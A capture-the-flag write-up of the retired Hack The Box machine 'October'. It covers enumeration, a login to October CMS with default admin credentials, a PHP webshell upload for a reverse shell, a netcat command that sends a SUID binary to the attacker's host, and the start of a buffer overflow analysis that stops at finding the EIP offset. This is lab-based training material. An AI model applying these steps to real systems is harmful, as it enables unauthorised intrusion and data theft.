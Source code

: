 # October

This is the write-up for the box October that got retired at the 1st July 2017.
My IP address was 10.10.14.8 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.16    october.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/october.nmap 10.10.10.16
```

```markdown
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 79:b1:35:b6:d1:25:12:a3:0c:b5:2e:36:9c:33:26:28 (DSA)
|   2048 16:08:68:51:d1:7b:07:5a:34:66:0d:4c:d0:25:56:f5 (RSA)
|   256 e3:97:a7:92:23:72:bf:1d:09:88:85:b6:6c:17:4e:85 (ECDSA)
|_  256 89:85:90:98:20:bf:03:5d:35:7f:4a:a9:e1:1b:65:31 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
| http-methods: 
|_  Potentially risky methods: PUT PATCH DELETE
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: October CMS - Vanilla
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

On the webpage we see a CMS called **October CMS** that seems to be up-to-date as the date on the lower bottom suggests and it uses the open-source forum software **Vanilla Forums**.

![October CMS](https://kyuu-ji.github.io/htb-write-up/october/october_webpage.png)

Lets look for hidden directories with _Gobuster_:
```markdown
gobuster dir -u http://10.10.10.16/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
```markdown
/blog (Status: 200)
/forum (Status: 200)
/themes (Status: 301)
/modules (Status: 301)
/account (Status: 200)
/tests (Status: 301)
/storage (Status: 301)
/plugins (Status: 301)
/backend (Status: 302)
```

The findings with the Code 301 and 200 are uninteresting but the _/backend_ forwards us to _/backend/backend/auth/signin_ where we get a login page.
Trying the default credentials **admin / admin** we get are logged in.

Now we can upload any PHP Webshell (mine listens on my IP and port 9001:

![Uploading PHP Webshell](https://kyuu-ji.github.io/htb-write-up/october/october_webshell.png)

Browsing to the file starts a reverse shell on the box as the user www-data but we can read the user flag.

## Privilege Escalation

We search for files the got the setuid bit set:
```markdown
find / -perm -4000 2>/dev/null
```

One binary that sticks out is called **/usr/local/bin/ovrflw** and this is what we want to use. Lets upload it to our local machine to examine it.
```markdown
Local machine:
nc -l -p 999 > ovrflw

October box:
nc 10.10.14.8 999 < /usr/local/bin/ovrflw
```

Before examining binaries we should get a machine that is similar to the box to get the best results when doing Binary Analysis.
In this case the October box is **Ubuntu 14.04.5 LTS** and **32-bit** and we need a machine that meets these conditions.

### Binary Exploitation

When executing the _ovrflw_ binary it tells us that it wants an input string. Giving it any input it does nothing but giving it for example 200 times the character "A" it outputs a **Segmantation Fault**.

```markdown
./ovrflw `python -c 'print "A"*200'`
Segmentation fault
```

This is the proof that we need to exploit a _Buffer Overflow_ vulnerability.

When analyzing the libraries we get the following output:
```markdown
www-data@october:/home/harry$ ldd /usr/local/bin/ovrflw 
        linux-gate.so.1 =>  (0xb77c7000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb760d000)
        /lib/ld-linux.so.2 (0x80034000)
www-data@october:/home/harry$ ldd /usr/local/bin/ovrflw 
        linux-gate.so.1 =>  (0xb7795000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75db000)
        /lib/ld-linux.so.2 (0x800e9000)
www-data@october:/home/harry$ ldd /usr/local/bin/ovrflw 
        linux-gate.so.1 =>  (0xb77cc000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7612000)
        /lib/ld-linux.so.2 (0x8005d000)
```

I executed it several times to see if the addresses change and they do which means that _ASLR_ is active.
We can deactivate that on our local machine to make analysis easier for us:
```markdown
echo 0 > /proc/sys/kernel/randomize_va_space
```

To identify where the Buffer Overflow occurs we need to create a unique pattern:
```markdown
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 200
```
```markdown
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
```

Nothing in this pattern repeats so we will use it to identify where the Buffer Overflow happens.

#### Debugging the binary

We will debug the binary with **GDB** with the _Peda_ extension installed.
```markdown
gdb ./ovrflw
```
```markdown
gdb-peda$ b main
Breakpoint 1 at 0x8048480
```

![Checksec](https://kyuu-ji.github.io/htb-write-up/october/october_gdb_1.png)

As we can see with `checksec` the **NX (No eXecute)** is enabled which is **Data Execution Prevention (DEP)** so we can't execute shellcode and jump to it.

Now we execute it with the unique pattern we created:

![Running the binary](https://kyuu-ji.github.io/htb-write-up/october/october_gdb_2.png)

![Continuation](https://kyuu-ji.github.io/htb-write-up/october/october_gdb_3.png)

The program crashes at 0x64413764.

```markdown
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 64413764

[] Exact match at offset 112
```

Which is at 112 bytes where we start to overwrite EIP.

